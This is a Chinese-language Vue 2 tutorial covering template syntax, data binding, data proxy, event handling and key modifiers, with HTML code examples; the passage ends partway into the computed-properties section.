 导读：

JavaScript2022年度报告：https://csdnnews.blog.csdn.net/article/details/128668479?spm=1000.2115.3001.5927

JavaScript相关框架、构建工具、测试工具等（排名来源于JS年度报告中的调查）：



# VUE

## 1.vue基础

### 1.1.什么是vue

​	vue是一套用于**构建用户界面**的**渐进式**JavaScript框架。中文官网：https://cn.vuejs.org/

- 渐进式：vue可以自底向上逐层的应用。（引入轻量的核心库逐渐递进到各种各样的复杂库）

****




vue由当时在谷歌工作的尤雨溪(Evan You)在2013年受AngularJS框架的启发，开发出了一款轻量框架---Seed，同年12月，Seed更名为vue，版本号为0.6.0.

- 2014年：vue正式对外发布，版本号为0.8.0，Taylor Otwell(PHP Laravel之父)在Twitter上发表动态，说自己正在学习vue；
- 2015年：10月27日，正式发布vue1.0.0 Evangelion（新世纪福音战士），同年，vue-touter,vuex,vue-cli相继发布，标志vue正式发展成一个渐进式框架；
- 2016年：10月1日，正式发布vue2.0.0 Ghost in the shell（攻壳机动队），它吸收了react的虚拟dom方案，还支持服务端渲染；
- 2019年：尤雨溪公布了3.0.0的源代码，当时还是Alpha版本；
- 2020年：9月18日，正式发布vue3.0.0（海贼王）。


### 1.2.vue的特点

1. 采用组件化模式，提高代码复用率，让代码更好维护；




2.声明式编码，让编码人员无需操作DOM元素，提高开发效率；

3.使用虚拟DOM+Diff算法,尽量复用DOM结点.


### 1.3.搭建vue环境

可根据vue官方文档https://v2.cn.vuejs.org/v2/guide的`学习``教程`参考安装搭建vue环境。

- 安装：安装版本有`开发版本`和`生产版本`，开发版本包含完整的警告和调试模式，而生产版本则删除了警告，是项目上线时的首选，这里我们两个都下载，以便进行对比。




- 创建工程`vue-basic`，并创建同级文件夹`js`，引入两个版本的`vue.js`和`vue.min.js`，创建文件`01-初识vue.html`，文件层级如下：

****

- 通过`<script>`标签引入vue，然后再通过浏览器控制台打开查看到两个提示：

```html
<!-- 引入vue -->
<script src="../js/vue.js"></script>
```




- 下载vue开发者工具：在`https://devtools.vuejs.org/guide/installation.html`中根据自己使用的浏览器进行vue开发者工具的下载，然后将其拖动到浏览器扩展中。如报错`Vue.js is not detected`可打开插件管理页，打开插件详情，将`允许访问文件网址`打开（参考：https://blog.csdn.net/qiaoyangla/article/details/122801903）。当引入开发者工具成功，刷新刚才的网页，第一条警告消失：



- 另一条提示，我们也可以根据`学习`中的`api`的全局配置`https://v2.cn.vuejs.org/v2/api/`进行配置，将#productionTip属性值设置为false即可组织vue在启动时生成生产提示。



添加代码如下：

```html
<script type="text/javascript">
     // 设置为 false 以阻止 vue 在启动时生成生产提示
     Vue.config.productionTip = false;
</script>
```

刷新控制台发现提示消失。（有时候可能没有效果，我们可以直接到`vue.js`文件中找到`productionTip`，把值修改为false。）

- Hello World案例

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Document</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 
        总结：
            1.想让vue工作，就必须创建一个vue实例，且要传入一个配置对象；
            2.root容器里的代码依然复合html规范，只不过混入了一些vue语法，vue用{{}}去接收传递过来的值；
            3.root容器里的代码被称为【vue模板】。

     -->
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>Hello World,{{name}}</h1>
    </div>
    <script type="text/javascript">
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;

        // 创建vue对象
        new Vue({
            // el用于指定当前vue实例为哪个容器服务，值通常为css选择器
            // 值也可用原生js方法：document.getElement...()的方式
            el: "#root",
            // data用于存储数据，数据供el所指定的容器使用，值暂时可写一个对象{}
            data: {
                name: "vue来的"
            }
        })
    </script>
</body>
</html>
```


- 如果容器和vue对象是一对多、多对多是不行的，这两个对象只能一对一，以下两端代码都是不正确的处理方式：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Document</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 
        总结：
            1.想让vue工作，就必须创建一个vue实例，且要传入一个配置对象；
            2.root容器里的代码依然复合html规范，只不过混入了一些vue语法，vue用{{}}去接收传递过来的值；
            3.root容器里的代码被称为【vue模板】。

     -->
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>Hello World,{{name}}</h1>
    </div>
    
    <div id="root">
        <h1>Hello World,{{name}}</h1>
    </div>
    <script type="text/javascript">
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;

        // 创建vue对象
        new Vue({
            // el用于指定当前vue实例为哪个容器服务，值通常为css选择器
            // 值也可用原生js方法：document.getElement...()的方式
            el: "#root",
            // data用于存储数据，数据供el所指定的容器使用，值暂时可写一个对象{}
            data: {
                name: "vue来的"
            }
        })
    </script>
</body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Document</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 
        总结：
            1.想让vue工作，就必须创建一个vue实例，且要传入一个配置对象；
            2.root容器里的代码依然复合html规范，只不过混入了一些vue语法，vue用{{}}去接收传递过来的值；
            3.root容器里的代码被称为【vue模板】。

     -->
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>Hello World,{{name}}，{{sex}}</h1>
    </div>
    <!-- <div id="root">
        <h1>Hello World,{{name}}</h1>
    </div> -->
    <script type="text/javascript">
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;

        // 创建vue对象
        new Vue({
            // el用于指定当前vue实例为哪个容器服务，值通常为css选择器
            // 值也可用原生js方法：document.getElement...()的方式
            el: "#root",
            // data用于存储数据，数据供el所指定的容器使用，值暂时可写一个对象{}
            data: {
                name: "vue来的"
            }
        })

        // 创建vue对象
        new Vue({
            // el用于指定当前vue实例为哪个容器服务，值通常为css选择器
            // 值也可用原生js方法：document.getElement...()的方式
            el: "#root",
            // data用于存储数据，数据供el所指定的容器使用，值暂时可写一个对象{}
            data: {
                sex: "vue性别是什么？"
            }
        })
    </script>
</body>
</html>
```


- {{xxx}}中的xxx要学js表达式，而不能是代码块，以及Vue对象是一个构造函数对象，必须通过new的方式进行创建，以下为相关注意事项：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Document</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 
        总结：
            1.想让vue工作，就必须创建一个vue实例，且要传入一个配置对象；
            2.root容器里的代码依然复合html规范，只不过混入了一些vue语法，vue用{{}}去接收传递过来的值；
            3.root容器里的代码被称为【vue模板】；
            4.Vue实例和容器是一一对应的；
            5.真实开发中只有一个Vue实例，并且只会配合着组件一起使用；
            6.{{xxx}}中的xxx要写js表达式，且xxx可以自动读取到data中的所有属性；
            7.一旦data中的数据发生改变，那么模板中用到该数据的地方也会自动更新。


            注意区分：js表达式和js代码（语句）
                1.表达式：一个表达式可以返回一个值，可以放在任何一个需要值的地方：
                    （1）.a
                    （2）.a+b
                    （3）.demo(1)
                    （4）.x===y ? "a" : "b"
                2.js代码：
                    （1）.if(){}
                    （2）.for(){}
                     ...

     -->
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>Hello World,{{name}}，{{sex}},{{Date.now()}}</h1>
    </div>

    <script type="text/javascript">
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;
        // 解决开发者工具的问题：Vue.js is detected on this page
        Vue.config.devtools = true


        // 创建vue对象
        new Vue({
            // el用于指定当前vue实例为哪个容器服务，值通常为css选择器
            // 值也可用原生js方法：document.getElement...()的方式
            el: "#root",
            // data用于存储数据，数据供el所指定的容器使用，值暂时可写一个对象{}
            data: {
                name: "vue来的"
            }
        })
        
    </script>
</body>
</html>
```


### 1.4.vue模板语法

之前我们所学习到的{{xxx}}是模板语法中的一种---**插值语法**，它能实现的功能比较单一，只能将指定的值放到指定的地方。还有一种就是---**指令语法**，它可以用于解析标签（包括：标签属性、标签体内容、绑定事件等。）我们分别来了解下这两种模板语法。

- **插值语法：**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>插值语法</h1>
        <h3>
            你好，{{name}}
        </h3>
    </div>

    <script>
        Vue.config.productionTip = false; // 阻止vue在启动时生成生产提示

        new Vue({
            el: '#root',
            data: {
                name: "邹堂瑞"
            }
        })
    </script>
</body>
</html>
```


- **指令语法：**指令语法可以使用冒号或v-bind来进行绑定（实际冒号:就是v-bind的简写形式）。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 
        Vue模板语法有2大类：
					1.插值语法：
							功能：用于解析标签体内容。
							写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。
					2.指令语法：
							功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。
							举例：v-bind:href="xxx" 或  简写为 :href="xxx"，xxx同样要写js表达式，
									 且可以直接读取到data中的所有属性。
							备注：Vue中有很多的指令，且形式都是：v-????，此处我们只是拿v-bind举个例子。
     -->
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>插值语法</h1>
        <h3>
            你好，{{name}}
        </h3>

        
        <h1>指令语法</h1>
        <!-- v-bind作为绑定的一种指令语法的方式 -->
        <a v-bind:href="url">点我百度一下，你就学会vue了</a>
        <!-- v-bind可以简写成:的形式 -->
        <a :href="url">点我百度一下，你学得会vue吗？</a>
    </div>

    <script>
        Vue.config.productionTip = false; // 阻止vue在启动时生成生产提示

        new Vue({
            el: '#root',
            data: {
                name: "邹堂瑞",
                url: 'https://www.baidu.com'
            }
        })
    </script>
</body>
</html>
```

**总结：**

 Vue模板语法有2大类：
					1.插值语法：
							功能：用于解析标签体内容。
							写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性。
					2.指令语法：
							功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。
							举例：v-bind:href="xxx" 或  简写为 :href="xxx"，xxx同样要写js表达式，
									 且可以直接读取到data中的所有属性。
							备注：Vue中有很多的指令，且形式都是：v-????，此处我们只是拿v-bind举个例子。

### 1.5.数据绑定

​	之前我们所用到的`v-bind`只能实现从data流向页面的单项绑定，我们在页面准备input输入框，用`v-bind`传递`name`属性过来，我们发现从vue插件流向输入框是可以的，但从输入框输入的值无法改变vue插件中的值。如果想要实现双向绑定，vue也给我们提供了`v-model`，它不仅能从data流向页面，还可以从页面流向data。

​	但需要注意的是：虽然`v-model`功能更加强大，能实现双向绑定，但它实现的场景只能是**表单类元素（输入类元素）**上（如：input，select等）。



```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>数据绑定</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 
        总结：
        vue有两种绑定的方式：
            1.单向绑定(v-bind)：数据只能从data流向页面。
					2.双向绑定(v-model)：数据不仅能从data流向页面，还可以从页面流向data。
						备注：
								1.双向绑定一般都应用在表单类元素上（如：input、select等）
								2.v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值。
     -->
    <!-- 准备一个容器 -->
    <div id="root">
        <!-- 常规写法 -->
        单向绑定：<input type="text" v-bind:value="name"><br>
        双向绑定：<input type="text" v-model:value="name"><br>
        <!-- v-model:value 可以简写为 v-model -->
        单向绑定：<input type="text" :value="name"><br>
        双向绑定：<input type="text" v-model="name"><br>
        <!-- 使用v-bind能实现数据传递 -->
        <h2 v-bind:value="name">你好啊！！！</h2>
        <!-- 使用v-model不能实现数据传递 -->
        <h2 v-model:value="name">你好啊！！！</h2>
    </div>

    <script>
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;
        // 解决开发者工具的问题：Vue.js is detected on this page
        Vue.config.devtools = true;
        new Vue({
            el: "#root",
            data: {
                name: "邹堂瑞"
            }
        })
    </script>
</body>
</html>
```

**总结：**

```text
1.语法：v-bind:href ="xxx" 或简写为 :href
	特点：数据只能从 data 流向页面
2.语法：v-model:value="xxx" 或简写为 v-model="xxx"
	特点：数据不仅能从 data 流向页面，还能从页面流向 data
```


### 1.6.el和data的两种写法

​	之前我们需要通过`new Vue()`的方式创建Vue实例，但这种写法太过于麻烦，我们可以创建代码片段，快捷生成要创建的Vue实例。

​	el属性我们之前已经用过了，它指定哪个容器使用当前的Vue实例，但这种方式不太灵活，我们可以将创建的Vue实例返回一个对象，我们打印这个对象可以发现，这个对象有很多的方法属性，有`$`的大都是开发人员能使用的，其他的就属于Vue实例自己使用，而一部分方法则在原型对象`prototype`。我们可以使用原型对象中的`$mount`来取代`el`属性，以增加代码的灵活性。




​	而`data`也有两种写法：第一种是我们之前用到的`对象式`，还有一种是`函数式`。需要注意的是函数式必须有返回值，我们以后用到组件时，必须使用`函数式`，否则会报错。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
   
    <!-- 准备一个容器 -->
    <div id="root">
        <h1>你好,{{name}}</h1>
    </div>

    <script>
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;
        // 创建Vue对象
        // el的两种写法
        // const v = new Vue({
        //     // el属性第一种写法
        //     // el: "#root",
        //     data: {
        //         name: "Micheal"
        //         }
        // });
        // console.log(v);
        // // 第二种写法，mount就是将解析的内容‘挂载’到页面中
        // v.$mount('#root');
        
        // data的两种写法
        new Vue({
            el: "#root",
            // data的第一种写法：对象式
            // data: {
            //     name: ""
            //     }
            // data的第二种写法：函数式
            // 如下方式也可以简写为data(){...}
            data: function() {
                console.log("===",this); // 此处的this是Vue实例对象
                return{
                    name: "Micheal"
                }
            }
        })
    </script>
</body>
</html>
```

**总结：**

	data与el的2种写法
				1.el有2种写法
								(1).new Vue时候配置el属性。
								(2).先创建Vue实例，随后再通过vm.$mount('#root')指定el的值。
				2.data有2种写法
								(1).对象式
								(2).函数式
								如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。
				3.一个重要的原则：
								由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了。
### 1.7.理解MVVM

​	MVVM模型：

- M：模型（Model），即data中的数据；
- V：视图（View），即模板代码；
- VM：视图模型（ViewModel），即Vue实例。



```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 
        1.data中所有的属性，最后都出现在了vm身上。
		2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。
     -->
    <!-- 准备一个容器 -->
    <div id="root">
        <h2>球队：{{name}}</h2>
        <h2>球员：{{player}}</h2>
        <h2>测试：{{$options}}</h2>
    </div>

    <script>
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;
        // 创建Vue对象,官方文档中说用vm接收Vue实例
        const vm = new Vue({
            el: '#root',
            data: {
                name: '皇家马德里',
                player: '莫德里奇'
            }
        })
        console.log(vm);
    </script>
</body>
</html>
```

**总结：**

1.data中所有的属性，最后都出现在了vm身上。
2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。


### 1.8.Vue数据代理

#### 1.8.1.什么是数据代理

​	在此前我们对一个对象的属性进行赋值时，是直接通过`属性:属性值`的方式进行赋值的，并且默认是可以**枚举**的，即通过`for (const key in obj1) 或 obj1.keys()`均可访问到属性（遍历）。如果我们想在新增属性后不允许再更改属性值或者将该属性设置为非枚举属性，那我们该如何处理呢？

​	在ES6中出现了一个方法`Object.defineproperty(obj, prop, descriptor)`，它可以灵活动态的为一个对象添加或修改新的属性，并可以通过定义属性的元数据信息精确地控制属性的行为。。它有三个参数：obj--表示在哪个对象上添加或修改属性；prop--表示要添加或修改的属性名；desc--是一个配置项，一般是一个对象{}，它有**数据描述符**和**存取描述符**两种形式。**数据描述符**是一个Boolean类型的元数据属性，值为true或false，用于定义对属性的某种操作行为是允许还是禁止的。**存取描述符**是由getter-setter函数对描述的属性。desc必须是这两种形式，且不能同时包含数据描述符和存取描述符。

- **数据描述符**：

```text
value:18, // 表示要添加或修改的属性的值
enumerable:true, //控制属性是否可以枚举，默认值是false
writable:true, //控制属性是否可以被修改，默认值是false
configurable:true //控制属性是否可以被删除，默认值是false
```

- **存取描述符**：

```text
get:一个给属性提供getter方法，如果没有getter则定义为默认的undefined
set:一个给属性提供 setter 的方法，如果没有setter则为默认的undefined
```

- **示例**：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    <!-- 准备一个容器 -->
    <div id="root">

    </div>

    <script>
        let person = {
            name: 'Micheal',
            sex: '男',
            // age: 18
        }
        /* 
            Object.defineProperty()的作用是直接在一个对象上定义一个新的属性
            传递三个参数分别为：
                obj:在哪个对象上添加或修改属性
                prop:要添加或修改的属性名
                desc:配置项，一般是一个对象
        */
        Object.defineProperty(person,'age',{
				// value:18,
				// enumerable:true, //控制属性是否可以枚举，默认值是false
				// writable:true, //控制属性是否可以被修改，默认值是false
				// configurable:true //控制属性是否可以被删除，默认值是false

				//当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
				get(){
					console.log('有人读取age属性了')
					return number
				},

				//当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
				set(value){
					console.log('有人修改了age属性，且值是',value)
					number = value
				}

			})

			// console.log(Object.keys(person))

			console.log(person)
    </script>
</body>
</html>
```

​	那么什么是**数据代理**呢？通过一个对象代理对另一个对象中的属性的操作（读/写）就是**数据代理**。如现有obj和obj2两个对象，其中obj有一个属性x，属性值为100，obj2有一个属性y，属性值为200。我们要想实现obj2对x属性进行读写操作，可以用以下方式进行：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        let obj = {x: 100}
        let obj2 = {y: 200}
        /* 
        设置obj2的x属性，获取到obj的x属性并返回给obj2的x
        也可以通过set(value)进行设置
        */
        Object.defineProperty(obj2, 'x', {
            get() {
                return obj.x
            },
            set(value) {
                obj.x = value
            }
        })
    </script>
</body>
</html>
```

​	我们在控制台操作可以看到既可以得到obj2的x属性，也可以修改obj2的x属性值：




#### 1.8.2.Vue中的数据代理

​	Vue中的数据代理是：**通过Object.defineProperty()把data对象中所有的属性添加到vm上，且数据从data到vm中的过程，又为每一个属性添加上getter和setter方法，用户修改或者读取时，也是通过getter或setter方法访问_data，_data返回或操作data中的数据实现的**。



```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    
    <!-- 准备一个容器 -->
    <div id="root">
        <h3>学校名称：{{name}}</h3>
        <h3>学校地址：{{addr}}</h3>
    </div>

    <script>
        // 设置为 false 以阻止 vue 在启动时生成生产提示
        Vue.config.productionTip = false;
        // 创建Vue对象
        const vm = new Vue({
            el: '#root',
            data: {
                name: '四川城市职业学院',
                addr: '四川成都龙泉驿'
            }
        })
    </script>
</body>
</html>
```



**总结：**

​        1.Vue中的数据代理：

​              通过vm对象来代理data对象中属性的操作（读/写）

​        2.Vue中数据代理的好处：

​              更加方便的操作data中的数据

​        3.基本原理：

​              通过Object.defineProperty()把data对象中所有属性添加到vm上。

​              为每一个添加到vm上的属性，都指定一个getter/setter。

​              在getter/setter内部去操作（读/写）data中对应的属性。


### 1.9.事件处理

​	Vue中的事件处理是一个非常重要的技术点，因为用户操作页面通常是通过例如点击事件、键盘事件等事件来操作的。

#### 1.9.1.事件的基本处理

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <!-- 引入vue -->
    <script src="../js/vue.js"></script>
</head>
<body>
    
    <div id="root">
        <h3>
            欢迎来到{{name}}
        </h3>
        <!-- <button v-on:click='showInfo'>点我弹出同学你好</button> -->
        <!-- 以上方式可以简写成下面格式，用@替代v-on: -->
        <button @click='showInfo01'>点我弹出同学你好</button>
        <!-- $event是vue保留event，66是传递的参数 -->
        <button @click='showInfo02($event,666)'>点我接收参数666</button>
    </div>

    <script>
        new Vue({
            el: "#root",
            data: {
                name: "四川城院"
                },
            methods: {
                // event是一个事件对象，比如点击事件，它有一些属性如target-发生事件的目标
                showInfo01(event) {
                    // console.log(event.target.innerText);
                    // 此处this表示vm对象
                    // console.log(this);
                    alert('同学你好！！！');
                },
                showInfo02(event,number) {
                    // console.log(event.target.innerText);
                    // 此处this表示vm对象
                    // console.log(this);
                    alert(number);
                }
            }
        })
    </script>
</body>
</html>
```


**总结：**

​        事件的基本使用：

​              1.使用`v-on:xxx` 或` @xxx` 绑定事件，其中xxx是事件名；

​              2.事件的回调需要配置在`methods`对象中，最终会在vm上；

​              3.`methods`中配置的函数，不要用箭头函数！否则`this`就不是vm了；

​              4.`method`中配置的函数，都是被Vue所管理的函数，`this`的指向是vm 或 组件实例对象；

​              5.`@click="demo"` 和` @click="demo($event)"` 效果一致，但后者可以传参；


#### 1.9.2.事件修饰符  

​	事件修饰符表示对事件的阻止、触发和捕获等操作。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
    <style>
        * {
                margin-top: 20px;
        }

        .demo01 {
                height: 50px;
                background-color: red;
        }
        .box1{
		padding: 5px;
		background-color: skyblue;
	}
	.box2{
		padding: 5px;
		background-color: orange;
	}
	.list{
	        width: 200px;
		height: 200px;
		background-color: peru;
		overflow: auto;
	}
	li{
		height: 100px;
	}
    </style>
</head>
<body>
       
        <!-- 准备一个容器 -->
        <div id='root'>
                <h3>欢迎来到{{name}}学习</h3>
                <!-- prevent相当于preventDefault()，阻止事件 -->
                <a href="https://www.baidu.com" @click.prevent="showInfo">点击弹出你好</a>
                <!-- stop：阻止事件冒泡（常用） -->
                <div class="demo01" @click="showInfo">
                        <button @click.stop="showInfo">点击弹出同学你好！</button>
                </div>
                <!-- once：事件只触发一次（常用） -->
                <button @click.once="showInfo">点击弹出同学你好！</button>
                <!-- capture：使用事件的捕获模式
                        点击box1输出1，box2输出2，如果不使用capture
                        点击box2输出21，加了capture输出12
                -->
                <div class="box1" @click.capture="showMsg(1)">
                        div01
                        <div class="box2" @click="showMsg(2)">
                                div02
                        </div>
                </div>
                <!-- self：只有event.target是当前操作的元素时才触发事件 -->
                <div class="demo01" @click.self="showInfo">
                        <button @click="showInfo">点击弹出同学你好！</button>
                </div>
                <!-- passive：事件的默认行为立即执行，无需等待事件回调执行完毕 
                        scroll是滚动条滚动事件
                        wheel是鼠标滚轮滚动事件
                -->
                <ul class="list" @wheel.passive="showList">
                        <li>1</li>
                        <li>2</li>
                        <li>3</li>
                        <li>4</li>
                </ul>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                                name:'四川城市职业学院'
                        },
                        methods: {
                                showInfo(e) {
                                        // e.preventDefault()表示不要执行与事件关联的默认动作
                                        // e.preventDefault();
                                        // e.stopPropagation()表示阻止事件冒泡执行
                                        // e.stopPropagation();
                                        alert('同学你好！！！');
                                        // console.log(e.target);
                                },
                                showMsg(msg) {
                                        console.log(msg);
                                },
                                showList() {
                                        // console.log('==');
                                        for (let i = 0; i < 100000; i++) {
                                                console.log('#');;       
                                        }
                                        console.log('终于结束了！');
                                }
                        }
                        
                })
        </script>
</body>
</html>
```

**总结：**

​	Vue中的事件修饰符：

​                        1.prevent：阻止默认事件（常用）；

​                        2.stop：阻止事件冒泡（常用）；

​                        3.once：事件只触发一次（常用）；

​                        4.capture：使用事件的捕获模式；

​                        5.self：只有event.target是当前操作的元素时才触发事件；

​                        6.passive：事件的默认行为立即执行，无需等待事件回调执行完毕；


#### 1.9.3.键盘事件

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>欢迎来到{{name}}学习</h3>
            <!-- 
                keydown事件是按下未抬起时的操作
                keyup事件是抬起来时的操作-常用
                enter键盘事件别名表示按下回车才执行，如果没有，在输入框
                没输入一个字符就会输出
             -->
            <input type="text" placeholder="按下回车提示输入" @keyup.huiche="showInfo">
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                Vue.config.keyCodes.huiche = 13 //定义了一个回车别名按键
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            name: '四川城市职业学院'
                        },
                        methods: {
                            showInfo(e) {
                                // e.target.value获取输入框的内容
                                // e.keyCode表示输出键盘的字符编码,e.key表示键盘的键名
                                console.log(e.key,e.keyCode);
                                // if(e.keyCode !==13) return
                                console.log(e.target.value);
                            }
                        }
                        
                })
        </script>
</body>
</html>
```


**总结：**

​	1.Vue中常用的按键别名：

​              回车 => enter

​              删除 => delete (捕获“删除”和“退格”键)

​              退出 => esc

​              空格 => space

​              换行 => tab (特殊，必须配合keydown去使用)

​              上 => up

​              下 => down

​              左 => left

​              右 => right

**注意：**

- Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名）

- 系统修饰键（用法特殊）：ctrl、alt、shift、meta

​              (1).配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。

​              (2).配合keydown使用：正常触发事件。

- 也可以使用keyCode去指定具体的按键（不推荐）

- Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名


### 1.10.计算属性

​	要想了解计算属性，我们现通过以下案例来观察：在第一个输入框中动态接收姓，第二个输入框中动态接收名，然后用`-`分隔进行显示。常用的有两种实现的方式：①插值语法；②methods方法。




#### 1.10.1.插值语法实现

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            姓: <input type="text" v-model="firstName"><br/><br/>
            名：<input type="text" v-model="lastName"><br/><br/>
            <!-- 姓名：<span>{{firstName + '-' + lastName}}</span> -->
            <!-- slice(0,3)表示截取包括下标0，不包括下标3 -->
            姓名：<span>{{firstName.slice(0,3)}} - {{lastName}}</span>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            firstName: '张',
                            lastName: '三'
                        }
                        
                })
        </script>
</body>
</html>
```


#### 1.10.2.methods实现

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            姓: <input type="text" v-model="firstName"><br/><br/>
            名：<input type="text" v-model="lastName"><br/><br/>
            姓名：<span>{{fullName()}}</span>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            firstName: '张',
                            lastName: '三'
                        },
                        methods: {
                            fullName() {
                                console.log('=='); // 修改一次执行一次
                                return this.firstName + '-' + this.lastName;
                            }
                        }
                        
                })
        </script>
</body>
</html>
```

#### 1.10.3.计算属性实现

​	除此之外，最常用是用**计算属性**来实现。计算属性通过vm对象的`computed`属性来实现，`computed`里配置的就是你要返回的通过计算得到的返回结果，但如果要获取或修改这个结果，还需要使用`get()`方法和`set()`方法来实现。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
